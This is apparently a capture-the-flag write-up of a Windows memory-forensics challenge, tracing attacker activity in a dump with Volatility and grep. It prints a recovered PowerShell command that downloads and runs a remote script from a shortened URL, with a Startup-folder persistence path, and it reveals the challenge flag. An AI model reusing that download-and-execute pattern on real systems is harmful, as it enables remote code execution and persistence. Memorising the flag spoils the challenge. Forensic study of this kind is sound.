








# WRITE_UP #

## EXPORT ##

### 1. Analysis ###
* **Given:** a memory dump file `dump.raw`.
* **Description:** We spotted a suspicious connection to one of our servers, and immediately took a memory dump. Can you figure out what the attackers were up to?
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### VOL 3 SUCKS ####
Given a memory dump, the best tool we can use here is: `Volatility`.
* **Note:** I used `Volatility 3`, however in this challenge, I personally recommend you to use `Volatility 2`  

Initially, I ran `windows.pstree` to see the process hierarchy and identify any suspicious parent-child relationships:





As you can see, we can't detect anything suspicious but only the `cmd.exe` process. To check this, I subsequently ran `windows.cmdline` and `windows.cmdscan` to see if there were any malicious commands.. However, the cmdline gave me nothing, and cmdscan was not functioned since the Windows version is not supported:





Frustrated, I headed back to the pstree and hunt the suspicious parent-child relationships for hours but could't find anything. Then I decided to dump entire `cmd.exe` process to analyze it.

We can dump the whole process with the `PID` of it. Since the pstree gave us enough information, the `cmd.exe` PID is 1640, we can dump it with:

```bash
mkdir output
vol -f dump.raw -o output windows.memmap --pid=1640 --dump
```



After getting the process dump, I combined `strings` and `grep` to find keywords such as `iex`, `powershell`, ...
```bash
strings pid.1640.dmp | grep -Ei "iex|powershell|HTB|Invoke-Request"
```

Here I got lucky enough to find the suspicious command right at the beginning:



```bash
iex(iwr "http%3A%2F%2Fbit.ly%2FSFRCe1cxTmQwd3NfZjByM05zMUNTXzNIP30%3D.ps1")  Menu\Programs\Startup\3usy12fv.ps1
```

We see the encoded url also looks like a base64 encoded string, decode it with CyberChef we can get the flag.



Although the writeup is quite short, this challenge took me a decade to solve. But when I successfully solved the challenge with `Vol 3`, I tried it with `Vol 2` and it allowed me to run `cmdscan` and I didn't have to dump the cmd process and use grep string then pray for the flag appear. So that's why I recommend you to try Vol 2 with this challenge.

## 3. Solution ##
1. **Result:** The flag is `HTB{W1Nd0ws_f0r3Ns1CS_3H?}`


